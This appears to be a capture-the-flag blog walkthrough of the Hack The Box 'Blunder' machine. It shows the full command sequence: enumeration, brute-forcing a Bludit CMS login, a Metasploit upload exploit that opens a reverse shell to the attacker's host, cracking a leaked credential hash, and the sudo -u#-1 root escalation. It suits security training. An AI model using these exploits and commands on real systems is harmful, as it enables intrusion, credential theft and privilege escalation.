 ```yaml
---
layout: post
title:  "Blunder Hack The Box Walkthrough"
date:   2020-09-28 15:00:00 +0530
categories: HackTheBox HTB CTF
---
```

Blunder is a machine in which I used an enumration and a multiple cms exploits to get a shell and then enumeration and another exploit to get root Access.

## Scanning
As always, I started scanning with Nmap

```
root@kali:/home/kali# nmap -sC -sV 10.10.10.191
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-29 10:15 EDT
Nmap scan report for blunder.htb (10.10.10.191)
Host is up (0.16s latency).
Not shown: 998 filtered ports
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.15 seconds

```
Http open and ftp closed. 
## Directory Enumeration
Then I enumerated directories and files using gobuster

```
root@kali:/home/kali# gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u blunder.htb -e txt,php,html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://blunder.htb
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Expanded:       true
[+] Timeout:        10s
===============================================================
2020/09/29 10:16:49 Starting gobuster
===============================================================                                                   
http://blunder.htb/about (Status: 200)
http://blunder.htb/0 (Status: 200)
http://blunder.htb/admin (Status: 301)
http://blunder.htb/usb (Status: 200)
http://blunder.htb/LICENSE (Status: 200)
```
Found admin directory which contains a login page. then used wfuzz to enumerate directories

```
kali@kali:~$ wfuzz -w /usr/share/seclists/Discovery/Web-Content/common.txt --hc 404,403 http://10.10.10.191/FUZZ.txt

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4 - The Web Fuzzer                           *
********************************************************

Target: http://10.10.10.191/FUZZ.txt
Total requests: 4658

===================================================================
ID           Response   Lines    Word     Chars       Payload                                          
===================================================================

000003519:   200        1 L      4 W      22 Ch       "robots"                                         
000004125:   200        4 L      23 W     118 Ch      "todo"                                           

Total time: 220.7807
Processed Requests: 4658
Filtered Requests: 4656
Requests/sec.: 21.09785

```

Found todo.txt so I opened it and found a user called fergus

```
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING
```

## Bruteforce
The Login Page It contains rate limit so I searched for an exploit to bypass Rate limit and found [Exploit](https://raw.githubusercontent.com/musyoka101/Bludit-CMS-Version-3.9.2-Brute-Force-Protection-Bypass-script/master/bruteforce.py) 

If you tried the rockyou list it won't work so I used cewl

```
cewl http://10.10.10.191
```

then used the exploit

```
kali@kali:~/Desktop/blunder2$ python exploit.py 10.10.10.191 fergus wordlist 
[*] Trying: CeWL 5.4.7 (Exclusion) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
[*] Trying: the
....
[*] Trying: RolandDeschain
()
SUCCESS: Password found!
Use fergus:RolandDeschain to login.

```
## Exploit
I searched for an exploits for bludit in metasploit and found one
```
msf5 > use exploit/linux/http/bludit_upload_images_exec 
msf5 exploit(linux/http/bludit_upload_images_exec) > set RHOSTS 10.10.10.191
RHOSTS => 10.10.10.191
msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITPASS RolandDeschain
BLUDITPASS => RolandDeschain
msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITUSER fergus
BLUDITUSER => fergus
msf5 exploit(linux/http/bludit_upload_images_exec) > exploit 

[*] Started reverse TCP handler on 10.10.14.110:4444 
[+] Logged in as: fergus
[*] Retrieving UUID...
[*] Uploading ZNhMscEKTp.png...
[*] Uploading .htaccess...
[*] Executing ZNhMscEKTp.png...
[*] Sending stage (38288 bytes) to 10.10.10.191
[*] Meterpreter session 1 opened (10.10.14.110:4444 -> 10.10.10.191:41004) at 2020-09-29 10:31:07 -0400

```

## From Web to Hugo
I started enumeration and found an interesting credentials in

```
cat /var/www/bludit-3.10.0a/bl-content/databases/users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```

So, I started cracking the hash 
![Username](/assets/image/007/1.png)

then started su to hugo

```
su hugo              
Password: Password120
whoami
hugo
```
Then tried to try sudo -l

```
python -c 'import pty; pty.spawn("/bin/bash")'
hugo@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ sudo -l
sudo -l
Password: Password120

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```

I tried to bypass the this sudo permissions to run /bin/bash using this [Exploit](https://www.exploit-db.com/exploits/47502)

```
hugo@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ sudo -u#-1 /bin/bash
<-3.10.0a/bl-content/databases$ sudo -u#-1 /bin/bash       
root@blunder:/var/www/bludit-3.10.0a/bl-content/databases#  

```

and voila here is the root privilege!